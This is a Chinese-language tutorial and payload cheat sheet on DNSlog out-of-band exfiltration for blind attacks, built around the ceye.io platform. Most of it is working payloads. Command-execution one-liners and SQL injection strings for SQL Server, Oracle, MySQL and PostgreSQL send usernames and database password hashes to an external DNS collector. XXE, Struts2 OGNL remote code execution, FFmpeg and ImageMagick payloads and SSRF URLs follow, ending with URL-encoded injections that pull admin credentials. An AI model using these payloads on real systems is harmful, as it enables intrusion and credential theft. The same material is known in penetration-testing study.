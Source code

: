 ## 1、原理

DNS在解析的时候会留下日志，利用这个属性，可以读取多级域名的解析日志，来获取信息。

将带有查询的语句 发起dns查询请求，通过dns请求查询到值，组合成三级域名，在ns服务器dns的日志中显示出来。

无回显注入 ，一般使用布尔型盲注入和延时注入 查询数据，但是这两种查询都是很慢，dnslog查询直接显示数据，所以这种注入 效率上面说的这种都要好太多。 

最长的字符好似67个

##  2、平台

http://ceye.io 免费的dnslog平台 里面含有不少的payload 目前还是免费的 ，请大家多注册几个帐号，将来估计要收费的。

### **0x00 Command Execution**

#### i. *nix

curl http://ip.port.b182oj.ceye.io/`whoami`

ping `whoami`.ip.port.b182oj.ceye.io

#### ii. windows

ping %USERNAME%.b182oj.ceye.io

### 0x01 SQL Injection

#### i. SQL Server

DECLARE @host varchar(1024);

SELECT @host=(SELECT TOP 1

master.dbo.fn_varbintohexstr(password_hash)

FROM sys.sql_logins WHERE name='sa')

+'.ip.port.b182oj.ceye.io';

EXEC('master..xp_dirtree

"\\'+@host+'\foobar$"');

#### ii. Oracle

SELECT UTL_INADDR.GET_HOST_ADDRESS('ip.port.b182oj.ceye.io');

SELECT UTL_HTTP.REQUEST('http://ip.port.b182oj.ceye.io/oracle') FROM DUAL;

SELECT HTTPURITYPE('http://ip.port.b182oj.ceye.io/oracle').GETCLOB() FROM DUAL;

SELECT DBMS_LDAP.INIT(('oracle.ip.port.b182oj.ceye.io',80) FROM DUAL;

SELECT DBMS_LDAP.INIT((SELECT password FROM SYS.USER$ WHERE name='SYS')||'.ip.port.b182oj.ceye.io',80) FROM DUAL;

#### iii. MySQL

SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM mysql.user WHERE user='root' LIMIT 1),'.mysql.ip.port.b182oj.ceye.io\\abc'));

#### iv. PostgreSQL

DROP TABLE IF EXISTS table_output;

CREATE TABLE table_output(content text);

CREATE OR REPLACE FUNCTION temp_function()

RETURNS VOID AS $

DECLARE exec_cmd TEXT;

DECLARE query_result TEXT;

BEGIN

SELECT INTO query_result (SELECT passwd

FROM pg_shadow WHERE usename='postgres');

exec_cmd := E'COPY table_output(content)

FROM E\'\\\\\\\\'||query_result||E'.psql.ip.port.b182oj.ceye.io\\\\foobar.txt\'';

EXECUTE exec_cmd;

END;

$ LANGUAGE plpgsql SECURITY DEFINER;

SELECT temp_function();

### 0x02 XML Entity Injection

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://ip.port.b182oj.ceye.io/xxe_test">
%remote;]>
<root/>
```

### 0x03 Others

#### i. Struts2

xx.action?redirect:http://ip.port.b182oj.ceye.io/%25{3*4}

xx.action?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'whoami'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23t%3d%23d.readLine(),%23u%3d"http://ip.port.b182oj.ceye.io/result%3d".concat(%23t),%23http%3dnew%20java.net.URL(%23u).openConnection(),%23http.setRequestMethod("GET"),%23http.connect(),%23http.getInputStream()}

#### ii. FFMpeg

\#EXTM3U

\#EXT-X-MEDIA-SEQUENCE:0

\#EXTINF:10.0,

concat:http://ip.port.b182oj.ceye.io

\#EXT-X-ENDLIST

#### iii. Weblogic

 xxoo.com/uddiexplorer/SearchPublicRegistries.jsp?operator=http://ip.port.b182oj.ceye.io/test&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Businesslocation&btnSubmit=Search

#### iv. ImageMagick

push graphic-context

viewbox 0 0 640 480

fill 'url(http://ip.port.b182oj.ceye.io)'

pop graphic-context

#### v. Resin

xxoo.com/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=http://ip.port.b182oj.ceye.io/ssrf

#### vi. Discuz

http://xxx.xxxx.com/forum.php?mod=ajax&action=downremoteimg&message=[img=1,1]http://ip.port.b182oj.ceye.io/xx.jpg[/img]&formhash=xxoo

## 3、实战利用

####  实战mysql

查询库当前库

```sql
SELECT * FROM users WHERE id='1' and if((select load_file(concat('\\\\',(select database()),'.fooe50.ceye.io\\abc'))),1,0)
```

查询数据版本

```sql
SELECT * FROM users WHERE id='1' and if((select load_file(concat('\\\\',(select VERSION()),'.fooe50.ceye.io\\abc'))),1,0)
```

查询admin表的帐号和密码

```http
http://target_sys.com/article.php?id=1 and if((select load_file(concat('\\\\',(select password from admin ),'.fooe50.ceye.io\\abc'))),1,0)
http://target_sys.com/article.php?id=1 and if((select load_file(concat('\\\\',(select username from admin ),'.fooe50.ceye.io\\abc'))),1,0)
```

load_file 使用这个函数 必须 在mysql开启  secure_file_prv= 设置可以读取方可使用这个函数

#### 实战sqlserver

DECLARE @host varchar(1024);

SELECT @host=(SELECT TOP 1

master.dbo.fn_varbintohexstr(password_hash)

FROM sys.sql_logins WHERE name='sa')

+'.ip.port.b182oj.ceye.io';

EXEC('master..xp_dirtree

"\\'+@host+'\foobar$"');

查询sa 密文

```bash
;DECLARE @host varchar(1024);SELECT @host=(SELECT TOP 1 master.dbo.fn_varbintohexstr(password_hash)FROM sys.sql_logins WHERE name='sa')+'.ip.port.fooe50.ceye.io';EXEC('master..xp_dirtree "\\'+@host+'\foobar$"');
```

转码

```
%3b%44%45%43%4c%41%52%45%20%40%68%6f%73%74%20%76%61%72%63%68%61%72%28%31%30%32%34%29%3b%53%45%4c%45%43%54%20%40%68%6f%73%74%3d%28%53%45%4c%45%43%54%20%54%4f%50%20%31%20%6d%61%73%74%65%72%2e%64%62%6f%2e%66%6e%5f%76%61%72%62%69%6e%74%6f%68%65%78%73%74%72%28%70%61%73%73%77%6f%72%64%5f%68%61%73%68%29%46%52%4f%4d%20%73%79%73%2e%73%71%6c%5f%6c%6f%67%69%6e%73%20%57%48%45%52%45%20%6e%61%6d%65%3d%27%73%61%27%29%2b%27%2e%69%70%2e%70%6f%72%74%2e%66%6f%6f%65%35%30%2e%63%65%79%65%2e%69%6f%27%3b%45%58%45%43%28%27%6d%61%73%74%65%72%2e%2e%78%70%5f%64%69%72%74%72%65%65%20%22%5c%5c%27%2b%40%68%6f%73%74%2b%27%5c%66%6f%6f%62%61%72%24%22%27%29%3b
```

 

```
http://www.demo1.com/index.aspx?id=1;DECLARE @host varchar(1024);SELECT @host=(SELECT TOP 1 password from admin)+'.ip.port.fooe50.ceye.io';EXEC('master..xp_dirtree"\\'+@host+'\foobar$"');
```

 

```
http://www.demo1.com/index.aspx?id=1%3bDECLARE%20%40host%20varchar(1024)%3bSELECT%20%40host%3d(SELECT%20TOP%201%20password%20from%20admin)%2b%27.ip.port.fooe50.ceye.io%27%3bEXEC(%27master..xp_dirtree%22\\%27%2b%40host%2b%27\foobar%24%22%27)%3b
```



```
http://www.demo1.com/index.aspx?id=1%3bDECLARE %40host varchar(1024)%3bSELECT %40host%3d(SELECT TOP 1 password from admin)%2b'.ip.port.fooe50.ceye.io'%3bEXEC('master..xp_dirtree"\\'%2b%40host%2b'\foobar%24"')%3b
```

 

![img](file:///C:\Users\wzxmt\AppData\Local\Temp\ksohtml26264\wps1.jpg) 

 